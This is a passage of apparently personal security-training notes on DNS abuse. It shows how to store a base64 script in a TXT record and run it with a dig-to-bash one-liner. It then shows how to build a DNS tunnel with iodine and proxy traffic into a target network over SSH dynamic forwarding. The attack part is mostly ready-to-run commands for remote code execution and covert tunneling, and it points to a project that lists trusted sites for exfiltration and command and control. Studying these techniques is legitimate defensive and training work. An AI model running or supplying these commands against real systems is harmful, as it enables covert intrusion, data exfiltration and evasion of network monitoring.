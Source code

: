 - Add a `TXT` record that points to the base64 of our script. For example, Type: **TXT**, Subdomain Name: **script**, Value: **Base64**.
Once we added it, we can check if the DNS record was created correctly, by using 
```bash
dig +short -t TXT script.tunnel.com
```
We should get the encrypted script. Now we can decode the base64 code and pass it to the `bash` command to execute it.
```bash
dig +short -t TXT sctipt.tunnel.com | tr -d "\"" | base64 -d | bash
```

## DNS Tunneling
This technique is also known as TCP over DNS, where an attacker encapsulates other protocols, such as HTTP requests, over the DNS protocol using the DNS Data Exfiltration technique. DNS tunneling establishes a communication channel where data is sent and received continuously.
![[Pasted image 20240626232347.png]]
We will be using the [iodine](https://github.com/yarrick/iodine) tool for creating our DNS tunneling communications. To establish DNS tunneling we need to follow the following steps
1. Ensure to update the DNS records and create new NS points to our machine
2. Run `iodined` server from our machine. (note for the **server** side we use iodine**d**)
3. On the target, run the `iodine` client to establish the connection. (note for the client side we use iodine - without **d**)
4. SSH to the machine on the created network interface to create a proxy over DNS. We will be using the -D argument to create a dynamic port forwarding.
5. Once an SSH connection is established, we can use the local IP and the local port as a proxy in Firefox or ProxyChains.
First we run the server-side application from our machine.
```bash
sudo iodined -f -c -P Pass123 10.1.1.1/24 att.tunnel.com
```
With this we create a new network interface `dns0` for the tunneling over DNS, it runs in the foreground (`-f`). It skips checking the client IP address and port for each DNS request (`-c`). Sets a password for authentication (`-P`). Sets the network IP for the new network interface `dns0`, the IP address of the server will be 10.1.1.1 and the client 10.1.1.2. And we use the nameserver we previously set. 
On the target machine we need to connect to the server-side app
```bash
sudo iodine -P Pass123 att.tunnel.com
```
Once this connection is established, we open a new terminal and log in to 10.1.1.1 via SSH
All communication over the network 10.1.1.1/24 will be over the DNS. We will be using the `-D` argument for the dynamic port forwarding feature to sue the SSH session as a proxy. We need to use the `-f` argument to enforce ssh to go to the background. The `-4` arg forces the SSH client to bind on IPv4 only.
```bash
ssh USER@10.1.1.2 -4 -f -N -D 1080
```
Now that we have connected to the target over the `dns0` network, we leave it there and we can open a new terminal on our machine and use proxy chains, with `127.0.0.1` and port `1080` as proxy settings.
```bash
proxychains curl http://target.ip/demo.php

curl --socks5 127.0.0.1:1080 http://target.ip/demo.php
```

# Resources
The following link is a Living Off Trusted Sites that could be used to exfiltrate data or for C2 communication using legitimate websites. 

- [Living Off Trusted Sites (LOTS) Project](https://lots-project.com/)